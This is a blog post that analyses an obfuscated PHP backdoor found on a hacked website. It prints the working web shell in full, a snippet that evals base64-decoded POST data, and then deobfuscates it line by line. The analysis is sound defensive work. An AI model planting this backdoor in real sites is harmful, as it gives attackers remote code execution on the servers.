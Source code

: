```yaml
---
title: Anatomy of a PHP Hack
date: 2017-11-07
tag:
- php
- security
---
```

It's hard to come up with a title for this - but - basically I found some rogue code the other day that I thought was pretty interesting. I was fixing a "hacked" website when I came across the source of the symptoms of the hack.  One file had the following code in it:

<!--more-->

```php
$zgjv56 = "o_esb4da6ctp" ; 
$fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
$gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ; 
if( isset( ${ $gfc4 }['n89024b' ] )){
    eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;
}
```

This obfuscated code is doing something bad, but we don't know what at first glance.  Obviously, the solution is to remove it - but - aren't you a little curious what it was doing?  Let's take a look.

First, the `$zgjv56` variable has unique letters and numbers and an underscore.  It looks like `$fzba02` is created by picking out various offsets (remember, you can access a character of a PHP string in the same manner as you might query an array index).   It's weird that it's calling `strtolower()` though - because all the values are lower.  So, let's figure out what the value of `$fzba02` actually is.

> Important note: When you're testing PHP code that you're unsure of, run it in a sandboxed virtual machine that has no access to the internet or your local device.

```
php > $zgjv56 = "o_esb4da6ctp";
php > $fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
php > echo $fzba02;
base64_decode
```

Ah - so the variable is the value `base64_decode` - nice.  

> Why random variable names and why `base64_decode`? The random variable names make it harder to understand what the code is doing. It's like the difference between using `$counter` and `$c` - one is more obvious than the other.  The base 64 encoding is done most likely for a weak obfuscation attempt again.

The next line creates another variable based off of our initial string - let's check it out:

```
php > $gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ;
php > echo $gfc4;
_POST
```

So, this variable is targeting the magic/global PHP variable `$_POST` - ok - I'm starting to get a picture of what we may figure out next.  There is something that will be base 64 encoded and posted to this script.

This PHP line gives us the indicator of what wakes up the script:

```php
if( isset( ${ $gfc4 }['n89024b' ] )){

// translates to:
if (isset($_POST['n89024b'])) {
```

Again, a random variable/string in `n89024b` - but this says - if there is a post request to this page using the variable `n89024b` - we should do something.  That variable name is very likely not to be picked by the main application - so it's safe for this script to accept/intercept those values and do it's task.

```php
eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;

// translates to
eval(base64_decode($_POST['n89024b']));
```

Whenever you see `eval()` you should be afraid - but what is this really doing?  Its basically taking anything that is posted in a base 64 encoding with a specific variable and executing it directly in the context of this script.  This obfuscated script indicates that the user of this basically had free reign to run anything on the server at any time.  The easy fix is removing this code - the hard part is figuring out what / if they used this for other nefarious purposes on your server.
